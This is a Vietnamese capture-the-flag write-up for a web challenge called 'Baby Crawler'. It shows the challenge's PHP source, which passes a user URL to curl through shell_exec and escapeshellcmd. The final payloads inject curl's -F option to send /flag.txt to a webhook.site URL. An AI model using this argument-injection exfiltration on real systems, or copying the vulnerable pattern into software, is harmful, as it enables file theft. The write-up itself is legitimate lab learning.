

# Baby Crawler

Source: Cookie Arena
Tools: Curl
Fields: Web

- Giao diện
    
    
    
- src
    
    ```php
    <?php
    $title = "Baby Crawler";
    //----------------------------------
    function parse_html($cache_file)
    {
        $data = array(
            'title' => null,
            'description' => null,
        );
        $fp = file_get_contents($cache_file);
        if (!$fp)
            return $data;
    
        $res = preg_match("/<title>(.*)<\/title>/siU", $fp, $title_matches);
        if (!$res)
            return $data['title'] = null;
    
        $res = preg_match("/<meta name=\"description\" content=\"(.*)\"\/>/siU", $fp, $description_matches);
        if (!$res)
            return $data['description'] = null;
    
        $data = array(
            'title' => trim(preg_replace('/\s+/', ' ', $title_matches[1])),
            'description' => trim(preg_replace('/\s+/', ' ', $description_matches[1])),
        );
        return $data;
    }
    //----------------------------------
    if (isset($_POST['url'])) {
        $url = $_POST['url'];
        if (strpos($url, 'http') !== 0) {
            die('Only HTTP or HTTPS !');
        } else {
            $result = shell_exec('curl ' . escapeshellcmd($url));
            $cache_file = './cache/' . md5($url);
            file_put_contents($cache_file, $result);
            $data = parse_html($cache_file);
        }
    }
    
    if (isset($_GET['debug'])) {
        highlight_file(__FILE__);
        die();
    }
    
    ?>
    <!DOCTYPE html>
    <html lang="en">
    
    <head>
        <meta charset="UTF-8">
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <meta property="og:title" content="<?php echo $title; ?>">
        <meta property="og:description" content="<?php echo $title; ?>">
        <meta property="og:image" content="/static/main.png">
        <meta content='summary_large_image' property='twitter:card'>
        <meta property="og:url" content="https://cookiearena.org">
    
        <title><?php echo $title; ?></title>
    
        <link rel="icon" href="/static/favicon.ico" type="image/x-icon" />
        <link rel="shortcut icon" href="/static/favicon.ico" type="image/x-icon" />
        <link rel="stylesheet" type="text/css" href="/static/index.css" />
        <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css"
            integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous">
    </head>
    
    <body>
        <div class="bg-top"></div>
        <div class="wrapper h-100">
            <div>
                <div class="container text-center mt-5">
                    
                </div>
            </div>
            <div style="margin-top: 7rem;" class="container">
                <fieldset>
                    <legend><?php echo $title; ?></legend>
                    <div>
                        <?php echo isset($cache_file) ? "<p>Cached File: <a href='/{$cache_file}'>{$cache_file}</a></p>" : "" ?>
                        <?php echo !empty($data) ? "<p>Article: {$data['title']}" : "" ?>
                        <?php echo !empty($data) ? "<p>Description: {$data['description']}" : "" ?>
                        <!-- /?debug -->
                    </div>
                    <div>
                        <form action="" method="POST">
                            <input type="text" class="form-control" name="url" value="https://vnexpress.net/viet-nam-xuat-khau-sang-my-latinh-mot-ty-usd-moi-thang-4541275.html">
                            <br>
                            <input type="submit" name="submit" value="Crawl" class="btn btn-cookie uppercase">
                        </form>
                    </div>
            </div>
            </fieldset>
    
        </div>
        <footer class="footer fixed-bottom mb-5">
            <div class="container text-center">
                <a href="https://www.facebook.com/cookie.han.hoan" target="_blank" rel="norel noopener"></a>
                <a class="ml-2" href="https://discord.gg/cookiehanhoan" target="_blank" rel="norel noopener"></a>
            </div>
            <div class="container text-center mt-1">
                <a href="https://battle.cookiearena.org" class="text-secondary" target="_blank" rel="norel noopener">
                    <small class="text-muted">Powered by Cookie Arena</small>
                </a>
            </div>
        </footer>
        </div>
    </body>
    
    </html>
    ```
    
- Liên quan đến URL —> SSRF —> tuy nhiên sau khi thử một vài payload thì có vẻ ko được ổn lắm
- theo hint thì vào /?debug để xem source code
- Sau khi thấy đoạn này lập tức nghĩ đến Command Injection, nhưng hàm escapeshellcmd($url) làm tôi vỡ mộng vì nó chặn hầu hết các kí tự thường dùng trong CI như: &#;`|*?~<>^()[]{}$\ , \x0A và \xFF

```php
$result = shell_exec('curl '. escapeshellcmd($url));
     $cache_file = './cache/'.md5($url);
     file_put_contents($cache_file, $result);
     $data = parse_html($cache_file); 
```

—> tới đây dường như bế tắc, nên tôi thử tìm kiếm hướng đi khác từ các yếu tố xung quanh. Sau khi lân la trên mạng tôi bt đc rằng lệnh curl có thể gửi file thông qua option -F. Đây là cú pháp:

```php
curl -F "tên_trường_file=@đường_dẫn_tệp" URL
```

—> Thử payload, sử dụng webhook server để hứng request

```php
-F file=@/flag.txt https://webhook.site/b1a08dcc-9679-46d0-89c2-b2c8121bd50c
```

—> Tuy nhiên web nó chửi tôi rằng “Only HTTP or HTTPS !” 👺

—> vậy nên ta sẽ sửa nhẹ cái payload thành:

```php
http://103.97.125.53:30767 32 -F file=@/flag.txt https://webhook.site/b1a08dcc-9679-46d0-89c2-b2c8121bd50c
```

- Vậy là trên webhook ta sẽ nhận được 1 file flag.txt

